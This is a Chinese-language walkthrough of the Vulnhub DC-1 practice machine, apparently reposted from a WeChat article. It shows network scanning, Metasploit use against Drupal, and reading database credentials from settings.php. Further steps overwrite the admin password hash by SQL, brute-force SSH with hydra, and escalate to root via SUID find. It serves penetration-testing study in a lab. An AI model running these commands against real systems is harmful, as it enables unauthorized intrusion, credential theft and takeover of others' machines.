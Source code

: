原文地址 \[mp.weixin.qq.com\](https://mp.weixin.qq.com/s/iaBfOS2oMS-rxPl1Qa7xqg)

说明：Vulnhub 是一个渗透测试实战网站，提供了许多带有漏洞的渗透测试靶机下载。适合初学者学习，实践。DC-1 为基础入门篇，以下内容是自身复现的过程，总结记录下来，如有不足请多多指教。

下载地址：

https://www.vulnhub.com/entry/dc-1-1,292/

目标机 IP 地址：192.168.5.137  
攻击机 kali IP 地址：192.168.5.135

**arp-scan 是一个用来进行系统发现的 ARP 命令扫描工具。**  

命令 arp-scan  -l

发现目标 ip 为：192.168.5.137

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9C9MkIJ5qSADZOzof5YLgpFvrwsicuzsFBv42ZNgesA3Br22d3WeQE8w/640?wx_fmt=png)

**使用 nmap 进行端口查看**  

nmap -sS -Pn  192.168.5.137  --min-rate 1000 -p1-65535  --open

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9S9mq4CLv2EsJdic9LxZDsMic3CsGZiaPslFthRquvicTb6h89W6coiaSRkQ/640?wx_fmt=png)

\*flag1

访问 80 端口发现是 Drupal 所搭建的站点。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAMy4zibxiaXtGiaugM6EIojU1euVcQAmdAiaxjj11uhxicRB8Ub6FdB7Uq4g/640?wx_fmt=png)

msf 查找该 cms 有哪些可利用的漏洞 (一个一个实验)  

如图：

msfconsole   

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9DibFOATpvcRxbrdxNFiaubuJ6q3fJ7RL2kia4dREZg11NXe5SCUYicuEWQ/640?wx_fmt=png)

攻击成功执行命令，发现 flag1.txt。  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9SrrOnfby2QpibrgMuvU66pvdxDf7WgeFODaO7W0RXC0OwDqibAEfF0XQ/640?wx_fmt=png)

\*flag2

python-> 转换交互式 shell

python -c 'import pty;pty.spawn("/bin/bash")'

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G94XgApuVqicKahjAMkfia36EtkIUF1EudkUHicofGaSoMM8odOtVIaqeKg/640?wx_fmt=png)

**drupal 数据库配置文件**  /sites/default/settings.php

找到 flag2 并得知是 mysql 的数据库以及用户名密码。dbuser/R0ck3t

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9GFyLQN5UyhDbks0T9nqnZ7r2hYibicJfwUsdrvpcceQ3UtByXkOoSZYQ/640?wx_fmt=png)

\*flag3

链接 mysql 通过 flag2 获取的数据库配置信息

进入数据库查看数据

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9ejFr2cCezibulC2raOSFV7WRF5okwiaKgFhhRLIp9MbfTsmhPmpaMtcg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9V6JNz4o1opfn4RQTcMxYt73R8gicjqKvgqIPcYAToACicOoU3R7mYiaWg/640?wx_fmt=png)

查看表发现 users 表，查看该表字段返现用户名密码。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9J7Sf5Hias9cBFtaNCu25m1uwtkXv2dibFh2B7C4jOI1xmdwLMXweiahbA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAlJicuxUXgicuZZgibewkewGgSXXXRuuICicsIHeCInPMy7wvVcLDpYjQbg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAiakibgibqibe6STGxjPecicB4EwzOUAPktVH0M2kWuiaTSzfAxO13tNBpic7g/640?wx_fmt=jpeg)

无法解密，那我们就将密码改掉，收集资料得知，Drupal 对用户密码的加密是通过特定的加密文件进行加密的，加密文件位置在网站根目录下的 scripts 下。

使用加密脚本加密新密码 123456，生成加密密文。

详细信息：

https://www.drupal.org/node/1023428/ 

通过官方描述，对密码进行修改

password: 123456                

hash: $S$D7lXBdKAW230VzfapF/GsJg98zV8z7T3GNlR45nZtR1uCcYh11fn

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAGeiaN0icY6DYjia2Gcb02YBmOJMEJ31EpiaIyFwNoMUZE97sMGHaXiaicRrw/640?wx_fmt=jpeg)

对 admin 用户进行密码修改

update users set pass ='$S$D7lXBdKAW230VzfapF/GsJg98zV8z7T3GNlR45nZtR1uCcYh11fn' where name = 'admin';

已更改成功

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAVcFZdVFVsYZ8DoHwlDZsBia8mv60CAww01RW9wQ7Uj40VibI1QOQ0GMA/640?wx_fmt=jpeg)

登陆后台成功，发现 flag3。  

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxASKhgUp4MIjibZKHg2zupgDW3r4XhmPVyw3aUU9JGk5GTqXyAQicYZ76Q/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/zg4ibGYrEa26WU79ukNNInNFvKD5BkmxAmprHFMV2E2FyBgn3UbNJXphtfk0Cnc5F7Yjiapkq5KL9O1TMIicytQGQ/640?wx_fmt=jpeg)

\*flag4

由 flag3 提示信息 我们要查看一下 / etc/passwd  以及 /etc/shadow

由于权限的问题无法查看 shadow，查看 passwd 文件，发现 flag4 用户, 怀疑可以连接 ssh，对其进行 ssh 爆破。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G92BL45wRHqGtH6Y3wbEMV0neUiaNXqoKPajPElycicJKHeica9YFwVQnoA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9x9tLHRXr5dRrkHggeQbxWB5nBiaYQdcBAul5ugxuKtmRJgH4mae25Ew/640?wx_fmt=png)

使用 john+hydra

john 系统自带密码路径

自带字典 :/usr/share/john/password.lst

爆破命令:

hydra -l flag4 -P /usr/share/john/password.lst ssh://192.168.5.137

flag4/orange

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9KWXNk8XAuVmssKQ68QVLibiaz4IT1005yqg9cHJEUvHZqn1hm0STvvYA/640?wx_fmt=png)

ssh 链接

ssh flag4@192.168.5.137

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9XR0CQbqzmyQmgtv3PrxibU8FTCyYAWKFjKDMfpl6kiaB8cLa0ibBxklrQ/640?wx_fmt=png)

进行提权获取 root 权限  

find ./ gem -exec '/bin/sh' \\;  

![](https://mmbiz.qpic.cn/sz_mmbiz_png/zg4ibGYrEa24BvNcvIBhyg95tlHLwW4G9I3JCkc5XjiamEn79BIj0I67Cs0UTnRSQm9SsPQtsUaKicMfbXLCp5RnA/640?wx_fmt=png)

参考链接：https://www.freesion.com/article/7353791580/

                 https://www.cnblogs.com/lxfweb/p/13364770.html
